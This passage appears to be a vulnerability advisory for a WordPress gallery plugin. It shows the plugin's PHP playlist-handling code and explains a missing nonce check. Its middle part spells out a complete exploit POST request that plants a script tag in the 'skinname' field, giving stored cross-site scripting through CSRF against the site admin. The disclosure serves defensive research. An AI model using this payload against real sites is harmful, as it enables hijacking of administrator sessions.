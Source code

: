                 } else {
                    $added = false;
                }
                flag_music_wp_media_lib($added);
            break;
            case 'delete':
                flag_playlist_delete(urlencode($_GET['playlist']));
            case 'main':
                if(isset($_POST['updateMedia'])) {
                    flagGallery::flagSaveWpMedia();
                    flagGallery::show_message( __('Media updated','flag') );
                }
            default:
                flag_created_playlists();
                flag_music_wp_media_lib();
            break;
        }

        }

Well, alone in this function and its subsequent calls, there are more
security bugs than I can descibe here.  
But to just name the one critical I mentioned before, this POST request
inserts tainted data into a file, which  
is lateron echoed back to the admin menu which triggers an XSS.

    ============================================ EXPLOITING POST REQUEST ========================
        Host: localhost
        User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:21.0) Gecko/20100101 Firefox/21.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: de-de,de;q=0.8,en-us;q=0.5,en;q=0.3
        Accept-Encoding: gzip, deflate
        Cookie: {The wordpress cookie of the admin}
        Connection: keep-alive
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 117

        items_array[0]=notimportant&playlist_title=some_title&playlist_descr=some_description&mode=save&skinname="<script>alert(/Script Code/)</script>
    =============================================================================================

Explanation:

Due to inpropper coding style, this request is not protected by a nonce,
which would prevent a CSRF attack. For explanation of nonces and why  
they are impportant, look here:
http://www.prelovac.com/vladimir/improving-security-in-wordpress-plugins-using-nonces.  
However, the author  
probably intended to protect it with a nonce, because he actually
inserted one in the form field here:

    <!-- #new_playlist -->
    <div id="new_playlist" style="display: none;" >
         <form id="form_new_playlist" method="POST" action="<?php echo $filepath; ?>" accept-charset="utf-8">
    ===> <?php wp_nonce_field('flag_thickbox_form'); ?>
         <input type="hidden" id="new_playlist_mp3id" name="items_array" value="" />
         <input type="hidden" id="new_playlist_bulkaction" name="TB_bulkaction" value="" />
         <input type="hidden" name="mode" value="save" />
         <input type="hidden" name="page" value="music-box" />
         <table width="100%" border="0" cellspacing="3" cellpadding="3" >

